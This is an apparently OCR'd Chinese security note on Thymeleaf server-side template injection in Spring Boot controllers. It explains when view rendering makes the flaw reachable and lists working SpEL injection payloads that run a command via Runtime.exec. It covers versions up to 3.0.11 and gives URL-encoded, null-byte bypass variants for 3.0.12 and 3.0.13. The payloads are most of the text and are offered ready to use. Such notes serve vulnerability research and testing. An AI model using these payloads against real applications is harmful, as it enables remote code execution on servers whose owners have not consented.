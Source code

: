 重点在于Controller接口具有视图渲染功能，如果用RestController或者给Controller加上ResponseBody就失去了视图渲染功能，就不会触发漏洞

<=3.0.11 payload：

* 参数型：

```java
payload=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc.exe").getInputStream()).next()}__::.x
```

可以去掉`.x`，可以去掉两遍的双下划线，可以在前面加`\`

* URL型：

为了避免提前识别为文件后缀，后面的`.x`不能省

```java
payload=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc.exe").getInputStream()).next()}__::.x
```

```java
payload=\__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc.exe").getInputStream()).next()}__::.x
```

高版本Bypass：http://byname6.cn/index.php/2024/10/25/springboot%E4%B8%8B%E7%9A%84thymeleaf%E5%85%A8%E7%89%88%E6%9C%ACssti%E7%A0%94%E7%A9%B6/#header-id-14

由于利用价值不大，在此了解payload即可

=3.0.12 Bypass：

```java
__%24%7b%00new+java.util.Scanner(T+(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d__
```

=3.0.13 Bypass：

```java
%24%7b%00new+java.util.Scanner(%00T(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d
```

大于3.0.14 G



说实话这种直接控制return或者接收指定URL渲染的代码开发方式对我的世界观冲击太大了。怪不得不肯分配CVE编号





ref：

http://byname6.cn/index.php/2024/10/25/springboot%E4%B8%8B%E7%9A%84thymeleaf%E5%85%A8%E7%89%88%E6%9C%ACssti%E7%A0%94%E7%A9%B6/

https://xz.aliyun.com/news/9962?time__1311=QqGx2DcDRQDtG%3DD%2FYrqBKD%3D3dxmqSEuA2fbD&u_atoken=8e8ced3e76ca58d63707c98da3afe609&u_asig=1a0c399d17427095712908584e0038
